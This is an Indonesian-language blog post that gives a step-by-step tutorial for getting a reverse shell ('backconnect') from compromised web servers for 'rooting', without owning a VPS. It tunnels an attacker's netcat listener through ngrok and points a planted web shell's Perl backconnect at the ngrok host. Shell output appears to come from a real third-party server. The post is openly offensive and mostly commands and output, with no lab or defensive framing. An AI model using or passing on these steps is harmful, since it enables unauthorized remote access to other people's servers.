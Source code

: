 ```yaml
---
title: "Backconnect Shell Dengan Ngrok"
date: 2019-05-03T08:46:38+07:00
draft: false
toc: false
images:
tags: 
  - web
  - shell
---
```


Bagi temen temen yang mau rooting server tapi tidak punya VPS, ada cara lain yaitu dengan menggunakan ngrok, tapi tidak semua server atau *web shell* support backconnect dengan ngrok. tidak ada salahnya mencoba kan? hehe.

Disini saya menggunakan perl sebagai media backconnect antara server dan ngrok. OK lanjut ke alat tempurnya.

 1. Ngrok [Download](https://ngrok.com/download) Pilih sesuai sitem operasi kamu.
 2. Server yang support perl sangat di anjurkan,
 3. Netcat [Download](https://eternallybored.org/misc/netcat/) (disini saya menggunakan windows)

### Download dan Auth Ngrok
Jangan lupa untuk buat akun ngrok di [sini](https://dashboard.ngrok.com/user/signup) guna mengautentikasi token. Ektrak ngrok-XXX.zip nya lalu autentikasi token nya agar *ngrok* dapat berjalan. Ganti token sesuai dengan punyamu.
```
./ngrok authtoken initokenBqHnhg3_3X3JtBTSu1rNojz4kXXX
```

### Konfigurasi Ngrok & Netcat 
Selanjutnya jalankan *ngrok* dengan tcp, port sesuai selera misalkan:
```
./ngrok.exe tcp 1991
```
Pastikan ngrok berjalan dengan baik seperti di bawah ini,
```
ngrok by @inconshreveable                                                       (Ctrl+C to quit)

Session Status                online
Account                       Tan (Plan: Free)
Version                       2.3.23
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    tcp://0.tcp.ngrok.io:16857 -> localhost:1991

Connections                   ttl     opn     rt1     rt5     p50     p90
                              0       0       0.00    0.00    0.00    0.00
```
Jalankan netcat, pastikan port sesuai dengan port yang di jalankan di ngrok.
```
./nc.exe -lnvp 1991
```
Pastikan netcat berjalan walau masih listening,
```
λ .\nc.exe -lnvp 1991
listening on [any] 1991 ...
```

### Backconnect Server
Setelah semua terkonfigurasi, tinggal melakukan backconnect server ke komputer kita, pastikan webshell yang kita gunakan mempunyai fitur *backconnect*. 
{{< figure src="https://raw.githubusercontent.com/tanmyid/blog/master/img/fitur-bc.PNG" alt="fitur-bc" caption="Fitur Backconnect" >}}

Setelah semua terkonfigurasi, isi server dengan `0.tcp.ngrok.io` dan isi Port dengan port yang di buat oleh ngrok misal `16857` di sini saya menggunakan perl. Untuk `Bind port to /bin/sh [Perl]` abaikan saja. Klik >>
{{< figure src="https://res.cloudinary.com/tanmyid/image/upload/v1556851179/isi-bc_kodyu6.png" alt="isi-bc" caption="Contoh backconect" >}}

Cek di netcat, apakah sukses melalukan backconnect, jika sudah balasan dari server seperti di bawah, berarti sudah sukses backconnet,
```
λ .\nc.exe -lnvp 1991
listening on [any] 1991 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 62032
sh: no job control in this shell
sh-4.2$
```
### Uji Coba Command Linux
Selanjutnya tinggal [Spawn TTY Shell](https://tan.my.id/posts/spawn-tty-shell/). Ok kita coba jalankan command untuk memastikan kita sudah benar benar mendapak shell nya.
```
sh-4.2$ uname -a                                                                                
uname -a                                                                                        
Linux thewhitecloud.in 3.10.0-514.16.1.el7.x86_64 #1 SMP Wed Apr 12 15:04:24 UTC 2017 x86_64 x86
_64 x86_64 GNU/Linux                                                                            
```
Ok sudah berhasil, tips ini berguna bagi kalian yang tidak mempunyai VPS saat rooting server. Sekian dan terima kasih.